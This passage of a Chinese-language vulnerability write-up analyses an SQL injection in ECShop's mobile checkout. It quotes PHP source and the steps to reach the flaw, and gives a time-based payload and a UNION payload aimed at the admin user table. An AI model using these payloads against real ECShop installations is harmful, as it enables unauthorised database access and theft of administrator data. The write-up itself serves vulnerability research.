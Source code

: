             unset($cart_goods_stock, $_cart_goods_stock);
        `}`
        // 检查用户是否已经登录 如果用户已经登录了则检查是否有默认的收货地址 如果没有登录则跳转到登录和注册页面
        if (empty($_SESSION ['direct_shopping']) &amp;&amp; $_SESSION ['user_id'] == 0) `{`
            /* 用户没有登录且没有选定匿名购物，转向到登录页面 */
            ecs_header("Location: " . url('user/login') . "n"); //这里要处理
        `}`
```

主要是处理下

这些跳转停止代码执行的语句

`ecs_header("Location: " . url('user/login') . "n");`

需要用户登陆

`if (empty($_SESSION ['direct_shopping']) &amp;&amp; $_SESSION ['user_id'] == 0) `{``

后面一些判断条件依次满足就行了,这些都很简单,读读代码,就行了。

你也可以看我怎么利用然后返回去分析代码:

`http://127.0.0.1:8888/ecshop/upload/mobile/?m=default&amp;c=flow&amp;a=done`

直接访问提示购物车没有商品,那就随便注册个用户然后选个实物商品进去购物车

然后`http://127.0.0.1:8888/ecshop/upload/mobile/?m=default&amp;c=flow&amp;a=done`

提示填收货地址那么自己填写收货地址

这个时候就满足条件了：

`post:shipping=1 and sleep(5)%23`

[![](https://p2.ssl.qhimg.com/dm/1024_81_/t01256cd36f2baf52aa.jpg)](https://p2.ssl.qhimg.com/dm/1024_81_/t01256cd36f2baf52aa.jpg)

其实这个点还是很有意思的,当时我在想能不能搞个回显注入

```
if (isset($is_real_good)) `{`
            $res = $this-&gt;model-&gt;table('shipping')-&gt;field('shipping_id')-&gt;where("shipping_id=" . $order ['shipping_id'] . " AND enabled =1")-&gt;getOne();
            if (!$res) `{` //这里返回了$res
                show_message(L('flow_no_shipping'));
            `}`
        `}`
```

通过debug跟进到sql执行流程可以得到执行的语句是:

`$sql=SELECT shipping_id FROM ecs_shipping  WHERE shipping_id=1 and sleep(1)%23 AND enabled =1 LIMIT 1`

一列,构造下payload:

`post:shipping=-1 union select user_name from ecs_admin_user%23`

那么得到的`$res` 就是管理员的用户名了,后面我跟了下(文件内搜索$res) 没有发现有输出

按照代码逻辑命名来讲,这个返回值相当于布尔判断吧,应该是没有输出的,仅仅起到判断的作用,所以这个前台漏洞只能布尔盲注了,这也是我说这个漏洞叫半限制SQL注入的原因。


```